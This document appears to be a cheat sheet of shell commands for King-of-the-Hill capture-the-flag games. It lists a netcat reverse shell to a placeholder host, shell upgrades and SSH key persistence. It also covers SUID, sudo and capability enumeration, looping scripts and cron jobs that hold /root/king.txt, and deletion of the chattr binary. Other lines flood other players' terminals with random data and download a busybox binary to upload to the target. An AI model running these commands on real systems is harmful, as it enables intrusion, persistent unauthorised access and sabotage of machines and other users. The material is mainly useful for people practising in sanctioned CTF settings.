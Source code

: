 0. Generic KoTH commands

https://www.crybit.com/kill-unwanted-tty-unix/

## Script:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`python -c 'import pty;pty.spawn("/bin/bash")'`

`for i in {1..10}; do echo "while true; do echo $USERNAME > /root/king.txt; sleep 10; done &" >> /tmp/tmuxa5asdrav.sh; echo "sleep 0.1" >> /tmp/tmuxa5asdrav.sh; done`
`chmod +x /tmp/tmuxa5asdrav.sh`
`/tmp/tmuxa5asdrav.sh && rm /tmp/tmuxa5asdrav.sh &`


## See processes bound to ports
`netstat -lntp`

## Keeping SSH access:
`ssh-keygen`

(If you don't have a full tty shell, you can instead generate a key on your machine and upload the id_rsa.pub to the authorized_keys)
on your machine:
`nano id_temp`
`chmod 600 id_temp`
`ssh -i id_temp USER@IP`

## Reverse shell:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
## Find SUID stuff:
`find / -type -4000 > output.txt`

## Find commands you can run with sudo:
`sudo -l`
Note: you may need to specify full paths like `sudo /usr/bin/su` not just `sudo su`

## Find capabilities:
`getcap -r / 2>/dev/null`

## Messing with king.txt
`chattr +i king.txt; rm -rf /usr/bin/chattr`

`while true; do echo $USERNAME > /root/king.txt; sleep 0.1; done &`
`disown`
`while true; do chattr +i /root/king.txt; sleep 0.1; done &`

`crontab -e` then add above command `* * * * * COMMAND`
NOTE: sometimes root shells may not run commands as root. You may have to `sudo crontab` or find a way to get a 100% root shell even as root. You can also try manually adding it to /var/spool/cron/root and `chmod 600` it

## Messing with other players
`ls /dev/pts` then `cat /dev/urandom > /dev/pts/# &`

## Getting interactive shell:
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Get chattr static binary that can be uploaded and run:
`wget https://www.busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-x86_64 -O busybox`
Upload file to machine
`sudo ./busybox chattr [-+]i FILE`

## Remove SUID:
`chmod 0755 FILE`

## Remove `sudo -i`:
`visudo`